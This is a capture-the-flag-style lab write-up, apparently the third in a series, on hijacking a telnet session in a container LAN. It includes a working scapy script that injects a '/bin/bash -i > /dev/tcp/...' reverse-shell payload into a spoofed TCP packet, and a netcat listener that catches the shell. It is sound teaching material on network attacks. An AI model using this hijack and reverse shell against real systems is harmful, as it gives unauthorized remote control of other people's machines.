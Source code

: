 +++
title = "TCP Attack Lab 3 - Obtaining a reverse shell"
date = "2023-05-01"
description = "Exploiting a TCP connection to obtain a reverse shell."

tags = ["network","security","writeups",]
+++


We hijack a TCP connection to give us a reverse shell.

In the second part of this series, we conducted a TCP hijack attack on a `telnet` connection between two users on the same LAN as a malicious actor.

In the third and final installment, we will go a step further to execute not an arbitrary command, but a reverse shell, a powerful technique that is commonly used in system exploits.


# Setup

The set up can be found in the [overview post](/blog/posts/tcp-0-attack-lab).

 
# Hijacking a `telnet` Connection to Obtain a Reverse Shell

Following these steps will hijack a TCP connection between User 1 as the client and User 2 as the server. We will have the server give us a shell in a technique known as a reverse shell exploit.

First, I open Wireshark and monitor the LAN interface. I select the bridge interface starting with "br-". The characters following may change if you stop and start the containers in a separate occurrence.

Then, I use `telnet` to connect from User 1 to User 2.

!["wireshark initial"](/blog/images/tcp-reverse/wireshark-init.png)

Select the bridge interface.

---

Logging in to the `telnet` server (Remember: User 2) from the client generates network traffic that we will use to construct the hijack packet. 

!["telnet"](/images/tcp-reverse/telnet.png)

The telnet connection between User 1 and User 2.

---

The last TCP packet sent from User 1 to User 2 will inform the source port, sequence, and acknowledgement numbers used in the hijack packet we will spoof from the attacker to the server.

!["wireshark data"](/blog/images/tcp-reverse/wireshark-data.png)

Using Wireshark to construct our packet.

---

# Using `netcat` to establish a TCP server

In order to see the output of the command, we will set up a TCP server using `netcat`. 

!["netcat initial"](/blog/images/tcp-reverse/netcat-init.png)

Using netcat to establish a TCP server to display exploit output.

---


# Running the exploit

The following code will send our reverse shell hijack packet:

```python
import argparse
from scapy.all import *

def spoof_hijack_packet(src_port, seq_num, ack_num):
	user1_ip = "10.9.0.6"
	user2_ip = "10.9.0.7"

	user1_port = src_port
	user2_port = 23

	ip = IP(src=user1_ip, dst=user2_ip)
	tcp = TCP(sport=user1_port, dport=user2_port, flags="A", seq=seq_num, ack=ack_num)
	data = "\r /bin/bash -i > /dev/tcp/10.9.0.1/9090 2>&1 0<&1 \r"

	pkt = ip/tcp/data

	print("SENDING REVERSE SHELL PACKET........")
	send(pkt)

if __name__ == "__main__":
	parser = argparse.ArgumentParser()
	parser.add_argument("-p", "--src_port", type=int, help="source port", required=True)
	parser.add_argument("-s", "--seq", type=int, help="last sequence number", required=True)
	parser.add_argument("-a", "--ack", type=int, help="last acknowledgement number", required=True)

	args = parser.parse_args()

	spoof_hijack_packet(args.src_port, args.seq, args.ack)
```

For convenience, I designed the program to take the source port number, sequence number, and acknowledgement numbers as arguments. I invoke it as follows with the data gathered from Wireshark.

!["attack"](/blog/images/tcp-reverse/python-attack.png)

Using netcat to establish a TCP server to display exploit output.

---

The `netcat` TCP server we established on port 9090 has given us a shell into User 2's machine. 

!["netcat after"](/blog/images/tcp-reverse/netcat-after.png)

A reverse shell has been granted.

---

Using this shell, I created a file called foo.txt in /home/seed. We can verify that the file was created. 

!["server"](/blog/images/tcp-reverse/server.png)

Files on the telnet server, User 2.

---

If you were to go back to the `telnet` connection, we see that the connection no longer takes input. This is because the machines have detected the funny business from our spoofed packet.


# That's it!

In this series we explored TCP RST and hijacking attacks and extended the hijacking attack to obtain a reverse shell.


### _Updated: May 1, 2023_